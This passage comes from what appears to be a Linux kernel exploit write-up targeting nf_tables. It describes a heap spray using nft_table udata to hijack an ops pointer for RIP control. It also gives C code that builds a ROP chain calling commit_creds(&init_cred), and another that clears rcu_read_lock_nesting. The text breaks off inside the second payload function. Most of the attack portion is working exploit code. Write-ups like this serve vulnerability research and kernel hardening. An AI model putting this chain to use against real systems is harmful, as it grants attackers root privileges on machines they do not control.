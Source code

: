 We then spray the `udata` of the `struct nft_table` and place it in freed `blob_gen_0`. Finally, when a packet is sent, a sprayed fake ops address is referenced, resulting in RIP control [7].

```c
static void expr_call_ops_eval(const struct nft_expr *expr,
                    struct nft_regs *regs,
                    struct nft_pktinfo *pkt)
{
#ifdef CONFIG_RETPOLINE
    unsigned long e = (unsigned long)expr->ops->eval;
#define X(e, fun) \
    do { if ((e) == (unsigned long)(fun)) \
        return fun(expr, regs, pkt); } while (0)  // [7]

    X(e, nft_payload_eval);
    X(e, nft_cmp_eval);
    X(e, nft_counter_eval);
    X(e, nft_meta_get_eval);
    X(e, nft_lookup_eval);
    X(e, nft_range_eval);
    X(e, nft_immediate_eval);
    X(e, nft_byteorder_eval);
    X(e, nft_dynset_eval);
    X(e, nft_rt_get_eval);
    X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
    expr->ops->eval(expr, regs, pkt);
}
```

#### Post RIP

Store the ROP payload below to the `kmalloc-cg-96` and `kmalloc-cg-192` addresses leaked above, and execute it.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + push_rbx_pop_rsp;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = getpid();
    data[i++] = kbase + find_task_by_vpid_off;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0x474;
    data[i++] = kbase + add_rax_rsi_ret;

    data[i++] = kbase + pop_rsp_ret;
    data[i++] = heap_addr1+0x20;
}

void make_payload2(uint64_t* data){
    int i = 0;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + pop_rcx_ret;
```